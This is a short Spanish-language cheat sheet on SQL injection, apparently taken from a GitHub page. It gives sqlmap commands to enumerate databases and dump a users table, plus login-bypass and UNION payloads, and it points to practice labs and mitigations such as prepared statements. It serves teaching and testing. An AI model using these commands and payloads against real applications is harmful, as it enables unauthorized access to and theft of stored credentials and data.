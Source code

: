SQL Injection
Descripción Técnica
SQL Injection es una vulnerabilidad que permite a un atacante interferir con las consultas que una aplicación realiza a su base de datos. Generalmente ocurre cuando una aplicación utiliza entrada del usuario para construir consultas SQL sin la debida validación.

Cuándo se Usa
Aplicaciones web que interactúan con bases de datos

Formularios de login, búsqueda, filtros

Cualquier punto donde la entrada del usuario se use en consultas SQL

Riesgos
Acceso no autorizado a datos sensibles

Modificación o eliminación de datos

Ejecución de comandos administrativos en la base de datos

Compromiso completo del servidor

Comandos Clave
Detección
bash
# Con sqlmap
sqlmap -u "http://ejemplo.com/login.php" --data="user=admin&pass=test" --dbs

# Pruebas manuales
' OR '1'='1
' UNION SELECT 1,2,3--
Explotación
bash
# Enumerar bases de datos
sqlmap -u "http://ejemplo.com/login.php" --dbs

# Enumerar tablas
sqlmap -u "http://ejemplo.com/login.php" -D database --tables

# Extraer datos
sqlmap -u "http://ejemplo.com/login.php" -D database -T users --dump
Ejemplos de Laboratorio
Entorno Seguro
DVWA (Damn Vulnerable Web Application)

WebGoat

Máquinas de HackTheBox/VulnHub

Práctica
sql
-- Bypass de login
' OR '1'='1' --

-- Extraer información
' UNION SELECT username, password FROM users --
Mitigaciones
Usar prepared statements

Validar y sanitizar entrada

Principio de mínimo privilegio

WAF (Web Application Firewall)